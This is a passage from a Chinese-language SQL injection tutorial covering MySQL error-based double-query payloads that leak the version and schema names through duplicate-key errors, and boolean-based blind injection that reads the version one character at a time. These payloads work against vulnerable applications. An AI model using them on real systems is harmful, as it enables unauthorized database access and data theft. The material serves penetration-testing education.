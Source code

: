   例如查询

```sql
  # Get version
  SELECT COUNT(*),concat(version(),FLOOR(rand(0)*2))x  
  	FROM information_schema.TABLES  
  	GROUP BY x;
  	
  ---> ERROR 1062 (23000): Duplicate entry '5.0.96-0ubuntu31' for key 1
  
  # Get databases, 调整limit参数获取每个数据库
  SELECT COUNT(*),concat(0x3a,(
      	SELECT schema_name 
      	FROM information_schema.schemata LIMIT 0,1),0x3a,FLOOR(rand(0)*2))a 
  	FROM information_schema.schemata 
  	GROUP BY a LIMIT 0,1;
  
---> ERROR 1062 (23000): Duplicate entry ':information_schema:1' for key 1
```

  **应用到 `AND`子句中（Double Query）**

```sql
  AND (SELECT 1 FROM(
  	SELECT COUNT(*),concat(0x3a,(
      	SELECT schema_name 
      	FROM information_schema.schemata LIMIT 0,1),0x3a,FLOOR(rand(0)*2))a 
  	FROM information_schema.schemata 
  	GROUP BY a LIMIT 0,1;)b)
  	
---> ERROR 1062 (23000): Duplicate entry ':information_schema:1' for key 1
```

## 盲注

当前端无错误信息或错误信息已被标准化（例如“语法错误”等），只能使用盲注方法

### Boolean-based

> 通过注入**Bool表达式**并观察前端是否返回正确结果来判断该表达式是否为真

如下查询会返回正常结果

```sql
1 AND 1=1 # true
```

如下查询返回结果会改变

```sql
1 AND 1=2 # false
```

#### 提取DBMS版本

```sql
1 AND (ascii(substr((SELECT version()),1,1))) > 52 # Is version[0] > '4'
```
